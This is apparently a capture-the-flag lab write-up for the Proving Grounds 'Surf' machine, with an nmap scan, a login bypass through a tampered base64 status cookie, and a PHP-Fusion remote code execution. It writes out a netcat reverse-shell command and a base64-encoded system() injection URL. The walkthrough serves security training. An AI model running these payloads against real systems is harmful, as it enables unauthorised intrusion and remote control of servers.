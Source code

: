 #### Enumeration

```
# Nmap 7.91 scan initiated Sun Nov 14 05:24:04 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/xml/_full_tcp_nmap.xml 192.168.73.171
Increasing send delay for 192.168.73.171 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 192.168.73.171 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
Warning: 192.168.73.171 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.73.171
Host is up, received user-set (0.21s latency).
Scanned at 2021-11-14 05:24:05 EST for 1150s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp    open     http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Surfing blog
25803/tcp filtered unknown no-response
40073/tcp filtered unknown no-response
42514/tcp filtered unknown no-response
58164/tcp filtered unknown no-response
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/14%OT=22%CT=1%CU=41788%PV=Y%DS=2%DC=T%G=Y%TM=6190E8
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=
OS:M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7
OS:%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 3.956 days (since Wed Nov 10 06:47:01 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   209.35 ms 192.168.49.1
2   208.30 ms 192.168.73.171

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 05:43:15 2021 -- 1 IP address (1 host up) scanned in 1151.78 seconds

```

After browsing a while, the website looks nothing interesting. We use feroxbuster to discover new content.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h00m37s_001_.png)

We find a administration directory that is a login page. Using hydra with username ```admin``` to try to brute force a valid credential but failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h01m56s_002_.png)

I use Burp Sutie for further analysis. There is an interesting setting in login page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h02m39s_003_.png)

We decode auth_status base64 string and get a string ```{'success':'false'}```. 

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h03m30s_004_.png)

Trying to modify it to bypass the login verification.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h15m30s_005_.png)

We log in successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h19m42s_006_.png)

The ```Check Server Status``` page can check that the server where is installed PHP-Fusion is correctly running.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h00m22s_007_.png)

I found an RCE [vulnerability](https://www.exploit-db.com/exploits/49911) related to PHP-Fusion. Refer to the vulnerability description we create a new request payload to try to get the reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h28m33s_008_.png)

Encoding the connection string to base64 format and make sure to add spaces to avoid ```+``` or ```=```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_15h49m48s_009_.png)

```
echo "nc -e /bin/bash 192.168.49.162 80  " | base64
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h07m15s_010_.png)

We now combine request and base64 strings and modify the request url in Burp Suite.

```
http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=${system(base64_decode(bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTYyIDgwICAK))}
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h22m10s_011_.png)

We get the shell successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h31m46s_012_.png)

